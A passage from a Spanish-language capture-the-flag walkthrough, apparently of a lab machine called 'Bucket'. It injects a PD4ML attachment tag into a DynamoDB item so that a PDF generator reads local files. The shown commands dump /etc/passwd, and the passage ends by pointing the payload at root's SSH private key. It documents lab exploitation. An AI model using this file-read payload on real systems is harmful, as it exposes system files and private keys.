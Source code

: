 * PDF Attachments - [pd4ml.com](https://pd4ml.com/cookbook/pdf-attachments.htm).

Lo curioso fue que después de un rato de jugar con esto encontré un tweet donde se hablaba de este descubrimiento y como explotarlo:

* Playing with PD4ML API - [twitter.com/akhilreni_hs](https://twitter.com/akhilreni_hs/status/1219633535897817088).

```json
<pd4ml:attachment description="attached.txt" icon="PushPin">file:///etc/passwd</pd4ml:attachment>
```

Listo, pues intentemos agregar esta línea a la fila `data` de nuestra tabla y ejecutamos la petición con `cURL` a ver que sucede:

```bash
roy@bucket:/var/www/bucket-app$ aws --endpoint-url=http://localhost:4566 dynamodb put-item --table-name alerts \
        --item '{"title": {"S": "Ransomware"}, "data": {"S": "<pd4ml:attachment description=\"attached.txt\" icon=\"PushPin\">file:///etc/passwd</pd4ml:attachment>"}}'
```

Escapamos las `""` (comillas) y le damos:

```bash
roy@bucket:/var/www/bucket-app/files$ curl -X POST --data "action=get_alerts" http://localhost:8000/index.php
roy@bucket:/var/www/bucket-app/files$ cat result.pdf
%PDF-1.4
%
1 0 obj
% [24] 
<<
/Filter /FlateDecode
...
...
/Params 5 0 R
>>
stream
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
...
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
roy:x:1000:1000:,,,:/home/roy:/bin/bash
...
```

Perfectooooooooooooooooooo, tenemos la estructura del archivo `/etc/passwd` en nuestro resultado. Probemos a ver si el usuario `root` tiene llave privada en su `$HOME`:

```json
<pd4ml:attachment description="attached.txt" icon="PushPin">file:///root/.ssh/id_rsa</pd4ml:attachment>
```

